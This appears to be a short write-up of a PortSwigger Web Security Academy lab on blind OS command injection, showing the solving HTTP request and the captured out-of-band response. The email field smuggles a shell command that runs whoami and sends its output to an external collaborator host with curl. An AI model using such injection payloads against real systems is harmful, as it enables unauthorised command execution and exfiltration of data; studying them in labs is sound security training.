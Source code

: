 # [Lab: Blind OS command injection with out-of-band data exfiltration](https://portswigger.net/web-security/os-command-injection/lab-blind-out-of-band-data-exfiltration)

## Lab

This lab contains a blind OS command injection vulnerability in the feedback function.

The application executes a shell command containing the user-supplied details. The command is executed asynchronously and has no effect on the application's response. It is not possible to redirect output into a location that you can access. However, you can trigger out-of-band interactions with an external domain.

To solve the lab, execute the `whoami` command and exfiltrate the output via a DNS query to Burp Collaborator. You will need to enter the name of the current user to complete the lab.

## Solutions

Same as [solution 1 of lab 3](./3.%20Blind%20OS%20command%20injection%20with%20output%20redirection.md)

```http
POST /feedback/submit HTTP/1.1

csrf=mtVzUSUV6Mxw5XR5oDWFn3TAijX7YxcF&name=test&email=a||curl+vhgf3lag8na5zpruawmoxwkmrdx4lv9k.oastify.com+-d+`whoami`||&subject=test&message=test
```

request to collaborator:

```http
POST / HTTP/1.1

peter-xEUl98
```
